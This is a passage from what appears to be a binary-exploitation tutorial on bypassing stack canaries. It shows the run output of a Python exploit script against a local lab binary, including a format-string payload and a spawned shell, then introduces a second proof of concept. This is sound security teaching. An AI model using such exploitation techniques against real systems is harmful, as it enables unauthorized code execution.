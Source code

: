     sys.exit(0)
{% endhighlight %}

###Proof

	$ python bypass_canary.py 
	[*] '/home/lab/Git/RE_binaries/0x00sec_WIP/Canary/binary/vuln2'
	    Arch:     i386-32-little
	    RELRO:    Partial RELRO
	    Stack:    Canary found
	    NX:       NX enabled
	    PIE:      No PIE (0x8048000)
	[*] '/lib/i386-linux-gnu/libc-2.23.so'
	    Arch:     i386-32-little
	    RELRO:    Partial RELRO
	    Stack:    Canary found
	    NX:       NX enabled
	    PIE:      PIE enabled
	[+] Starting local process './binary/vuln2': pid 20723
	[*] Switching to interactive mode
	sh;#    \x14\xa0\x0\x15\xa0\x0\x16\xa0\x0\x17\xa0\x0                                                                                                                                 804a014                                                                                                                                                                                                                            0                                                                                              f7ffd000                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            f7ffd53cXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXwhoamiWelcome 0x00sec to Stack Canaries
	$ whoami
	lab

Ok this worked but it did not necessarily defeat stack canaries!
I just opened another can of delicious attack surfaces and with that I was able to bypass the canaries completely.
Since that just doesn't feel quite right I will give another PoC for defeating the mechanism in a more appropriate manner.

 
 ____
## PoC 2
### Defeating stack canaries 4 realz now

Okay this time around a more 'standard' way of defeating stack canaries is shown
